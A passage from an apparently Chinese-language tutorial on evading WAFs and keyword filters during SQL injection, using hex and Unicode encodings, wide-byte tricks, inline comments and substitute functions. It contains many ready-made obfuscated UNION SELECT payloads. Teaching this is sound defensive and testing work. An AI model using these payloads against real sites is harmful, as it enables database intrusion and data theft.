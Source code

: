 举例：`z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4…`
`SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))`

示例代码中，前者是对单个字符十六进制编码，后者则是对整个字符串编码，使用上来说较少见一点

3.Unicode编码

Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了

看一下常用的几个符号的一些Unicode编码：

单引号:   `%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7`

空格：`%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0`

左括号：`%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8`

右括号：`%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9`

举例：`?id=10%D6‘%20AND%201=2%23`　

　　　`SELECT 'Ä'='A'; #1`

两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过

另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子

 

### d) 使用注释

看一下常见的用于注释的符号有哪些：`//, -- , /**/, #, --+,--  -, ;，--a`

1.普通注释

举例：`z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4`　

　　　`'union%a0select pass from users#`

`/**/`在构造得查询语句中插入注释，规避对空格的依赖或关键字识别;#、--+用于终结语句的查询

2.内联注释

相比普通注释，内联注释用的更多，它有一个特性/!**/只有MySQL能识别

举例：`index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3`

　　　`?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…`

两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括/、*在内的这些字符能正常使用

 

### e)等价函数与命令

有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用

1.函数或变量

```
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()
```
